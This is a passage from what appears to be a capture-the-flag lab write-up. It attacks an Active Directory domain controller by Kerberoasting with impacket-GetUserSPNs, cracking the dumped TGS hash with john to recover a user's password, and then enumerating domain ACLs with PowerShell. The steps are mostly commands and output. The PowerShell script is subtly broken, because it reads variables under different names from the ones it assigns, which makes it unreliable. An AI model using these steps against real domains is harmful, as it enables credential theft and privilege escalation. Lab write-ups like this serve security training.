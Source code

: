> Next we request a `kerberos TGS ticket` from the domain controller for this account:

```
impacket-GetUserSPNs administrator.htb/emily:'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -dc-ip 10.10.11.42 -request | grep '\$krb5tgs\$' | sudo tee -a hashes.txt

```
```bash

cat hashes.txt

$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$c2dfc00140f9f7ded3d386c5402efe4a$..........

```
```bash

john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

limpbizkit       (?)

```

> We have an account `Ethan:limpbizkit`, but it is not a member of the `Remote Management Users` group.

> I will check the access rights to the domain object `administrator.htb`, using an active session under the account `Emily`.
> I will rewrite the `PowerShell` script, previously used to analyze the `ACL` of access rights to users, now - to
> analyze access rights to the domain itself:

```powershell

$get_domainDN = (Get-ADDomain).DistinguishedName
$get_domainObject = [ADSI]"LDAP://$domainDN"
$get_ACL = $domainObject.ObjectSecurity.Access

foreach ($ace in $get_ACL) {
    if ($ace.IdentityReference -eq "administrator\ethan") {
        $ace
    }
}

```
<p align="center">